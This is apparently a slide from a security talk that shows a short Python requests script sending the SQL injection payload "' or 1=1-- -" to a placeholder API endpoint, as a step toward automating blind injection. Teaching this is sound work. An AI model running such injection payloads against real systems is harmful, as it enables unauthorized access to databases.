

Automate all the things
Using Python + requests
import requests

url = 'https://vulnerable.com/api/exists'
params = {'user': "' or 1=1-- -"}

r = requests.get(url, params=params)
print(r.text)
Becomes a pure algorithmic challenge!